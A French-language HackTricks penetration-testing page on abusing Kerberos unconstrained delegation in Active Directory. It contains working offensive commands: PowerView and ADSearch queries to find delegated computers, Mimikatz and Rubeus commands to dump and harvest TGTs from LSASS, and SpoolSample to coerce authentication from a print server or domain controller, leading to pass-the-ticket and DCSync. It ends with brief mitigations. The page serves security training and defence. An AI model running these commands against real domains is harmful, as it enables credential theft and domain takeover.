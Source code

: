 # Délégation sans contrainte

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Vous souhaitez voir votre **entreprise annoncée dans HackTricks** ? ou souhaitez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez** le [**💬**](https://emojipedia.org/speech-balloon/) **groupe Discord** ou le **groupe Telegram** ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Délégation sans contrainte

Il s'agit d'une fonctionnalité qu'un administrateur de domaine peut définir pour n'importe quel **ordinateur** à l'intérieur du domaine. Ensuite, chaque fois qu'un **utilisateur se connecte** à l'ordinateur, une **copie du TGT** de cet utilisateur va être **envoyée à l'intérieur du TGS** fourni par le DC **et enregistrée en mémoire dans LSASS**. Ainsi, si vous avez des privilèges d'administrateur sur la machine, vous pourrez **extraire les tickets et usurper les utilisateurs** sur n'importe quelle machine.

Donc, si un administrateur de domaine se connecte à un ordinateur avec la fonctionnalité de "Délégation sans contrainte" activée, et que vous avez des privilèges d'administrateur local sur cette machine, vous pourrez extraire le ticket et usurper l'administrateur de domaine n'importe où (élévation de privilèges de domaine).

Vous pouvez **trouver des objets d'ordinateur avec cet attribut** en vérifiant si l'attribut [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) contient [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx). Vous pouvez le faire avec un filtre LDAP de ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, c'est ce que fait powerview :

<pre class="language-bash"><code class="lang-bash"># Liste des ordinateurs sans contrainte
## Powerview
Get-NetComputer -Unconstrained #Les DC apparaissent toujours mais ne sont pas utiles pour l'élévation de privilèges
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Exporter les tickets avec Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Méthode recommandée
kerberos::list /export #Autre méthode

# Surveiller les connexions et exporter de nouveaux tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Vérifier toutes les 10 secondes les nouveaux TGTs</code></pre>

Chargez le ticket de l'administrateur (ou de l'utilisateur victime) en mémoire avec **Mimikatz** ou **Rubeus pour un** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Plus d'informations : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Plus d'informations sur la délégation sans contrainte sur ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forcer l'authentification**

Si un attaquant est capable de **compromettre un ordinateur autorisé pour la "Délégation sans contrainte"**, il pourrait **tromper** un **serveur d'impression** pour **se connecter automatiquement** contre lui **enregistrant un TGT** dans la mémoire du serveur.\
Ensuite, l'attaquant pourrait effectuer une **attaque Pass the Ticket pour usurper** le compte utilisateur du serveur d'impression.

Pour faire en sorte qu'un serveur d'impression se connecte à n'importe quelle machine, vous pouvez utiliser [**SpoolSample**](https://github.com/leechristensen/SpoolSample) :
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Si le TGT provient d'un contrôleur de domaine, vous pourriez effectuer une [**attaque DCSync**](acl-persistence-abuse/#dcsync) et obtenir tous les hachages du DC.\
[**Plus d'informations sur cette attaque sur ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Voici d'autres façons de tenter de forcer une authentification:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### Atténuation

* Limiter les connexions DA/Admin à des services spécifiques
* Définir "Le compte est sensible et ne peut pas être délégué" pour les comptes privilégiés.
